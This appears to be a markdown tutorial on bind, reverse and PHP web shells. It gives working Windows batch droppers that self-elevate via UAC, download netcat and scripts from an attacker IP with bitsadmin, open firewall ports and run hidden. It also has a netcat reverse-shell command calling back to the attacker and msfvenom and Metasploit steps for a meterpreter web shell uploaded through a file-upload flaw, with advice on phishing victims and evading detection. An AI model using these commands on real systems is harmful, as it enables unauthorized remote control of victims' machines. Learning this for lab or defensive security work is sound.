



### Using Reverse and Bind Shells

A bind shell establishes a listening service on a victim system. This
technique requires that the remote attacker initiate the inbound
connection to the victim.

A reverse shell establishes a listening service on an
attacker-controlled system. Then, tricking the victim system into
connecting outbound to the listening service.

**TLDR: Reverse shells make the victim connect to attacker machine. Bind
shells make the attacker connect to victim machine. Firewalls allow
outbound connection, less user interaction and the attacker would need
public IP of victim which is why reverse shell being better.**

**Bind Shells:**

1.  ```nano /var/www/html/bs-dl.bat``` and add the code (replacing attacker IP):
<pre> 
net session >nul 2>&1 

if %errorLevel% neq 0 ( 

    powershell -Command "Start-Process cmd -ArgumentList '/c %~f0' -Verb RunAs" 

    exit /b 

) 

bitsadmin /transfer Updates /download /priority normal http://203.0.113.66/nc.exe %userprofile%\Downloads\nc.exe  

bitsadmin /transfer Updates /download /priority normal http://203.0.113.66/bind-shell.bat %userprofile%\Downloads\bind-shell.bat  

netsh advfirewall firewall add rule name="ALLOW TCP PORT 8080" dir=in action=allow protocol=TCP localport=8080 

start /min /b cmd /c %userprofile%\Downloads\bind-shell.bat </pre>

2.  ```nano /var/www/html/bind-shell.bat``` and add the code:

    - ```%userprofile%\Downloads\nc -L -p 8080 -e cmd.exe``` 

3.  ```service apache2 start```

Let's see what is happening here:

After the attacker has started their web server with the Windows scripts
and tooling located in ```/var/www/html``` (Apache's default web server
location), it's now publicly accessible.

Assuming, the attacker has successfully managed to phish the Windows
Victim into clicking the link
```http://203.0.113.66/bs-dl.bat``` and running it.

1.  The script will first check whether the user is privileged, if not,
    the process will restart and elevate privileges using PowerShell,
    and the Victim will get a UAC prompt.

2.  If the user clicks "yes", ```nc.exe (netcat)``` will download from the
    attacker's machine located in ```/var/www/html``` into the user's Download
    folder. It will download another script called ```bind-shell.bat```
    into the user's Download folder. (The process will be run in the
    background as normal priority to avoid detection)

3.  Finally, we will allow an Inbound Firewall connection from
    port 8080. This is because the attacker will be connecting to the
    Victim's machine and We'll have to modify the inbound rule. (This
    can also be done via GUI firewall with advance security) - Note:
    This is why bind shells are not the preferred method.

-   Additionally, at router-level access, the attacker can setup
    port-forwarding rules to the victim machine.

4.  ```bind-shell.bat``` will be executed (completely hidden) and open a
    persistent netcat listener on port 8080. Now the victim's Windows
    machine is exposed to the internet since the netcat listener is
    running on 8080.

-   Notice the ```–L``` is for persistence so if the victim
    closes the cmd, netcat listener won't stop.

Assuming the attacker knows the Victim's Public IP machine, they can now
connect to it via port 8080 since the listener is established.

-   ```nc 10.1.16.2 8080```


**Reverse Shells:**

Reverse shells being easier and will follow a similar concept, only that
that victim will connect to the attacker's listener.

1.  nano ```/var/www/html/rs-dl.bat``` and the code:
<pre>
bitsadmin /transfer Updates /download /priority normal http://203.0.113.66/nc.exe %userprofile%\Downloads\nc.exe  

bitsadmin /transfer Updates /download /priority normal http://203.0.113.66/reverse-shell.bat %userprofile%\Downloads\reverse-shell.bat 

start /min /b cmd /c %userprofile%\Downloads\reverse-shell.bat
</pre>

2.  nano ```/var/www/html/reverse-shell.bat``` and add the code:

    - ```start /min /b cmd /c %userprofile%\Downloads\nc 203.0.113.66 4444 -e cmd.exe```

3.  ```service apache2 start```

4.  ```nc -lvnp 4444```

The difference here is that we're no longer going to be running the
script as cmd Administrator since we don't need to tweak any firewall
settings. The ```reverse-shell.bat``` will make netcat connect to our
attacker machine IP on port 4444. In step 4, we've started the listener
on our machine on 4444. (This can be any port) Assuming the victim runs
the script, we'll have a reverse shell and be connected.

**(Note: Threat actors would usually use a VPN or proxy to hide their
actual IP for reverse shells since we're actually exposing it to the
victim.)**


**Bonus - Web Shells:**

A web shell is a means to enable a reverse shell through running code on
a victim web server.

Let's assume the web app is PHP and vulnerable to a file upload. We can
create a php rev shell payload with metasploit.

\`\`\` msfvenom -p php/meterpreter_reverse_tcp LHOST=203.0.113.66
LPORT=9999 -f raw \> shell.php\`\`\`

1.  msfvenom -- A payload generation tool from the Metasploit Framework,
    used to create shellcode for exploits.

2.  php/meterpreter_reverse_tcp: A PHP-based Meterpreter reverse shell
    that connects back to an attacker\'s machine via TCP.

3.  LHOST=203.0.113.66, LPORT=9999 -- **LHOST** sets the attacker IP and
    **LPORT** sets the port listener in which the web server will
    connect to.

4.  -f raw: Specifies the format of the payload, in this case, it'll be
    raw which means no encoding or wrappers.

The output will look like this and shell.php should be created

{width="6.5in"
height="1.5625in"}

Now the attacker needs to start a listener using Metasploit.

\`\`\`\$ msfconsole

use exploit/multi/handler

set payload php/meterpreter_reverse_tcp

set LHOST 203.0.113.66 (attacker IP)

set LPORT 9999 (listener port, needs to be same as created in shell.php)

run\`\`\`

{width="5.5625in"
height="2.6742782152230973in"}

After uploading the shell.php, we should be connected.

{width="5.864583333333333in"
height="0.8364555993000875in"}

**Notes:**

**The listener IP is the attacker's IP and we can choose any port to
listen on.**

**nc --l which is valid for both Linux and Windows setups the
listener.**

**nc --L which is valid only for Windows setups the listener as
persistence, so if Victim closes the terminal. The attacker will still
be connected.**
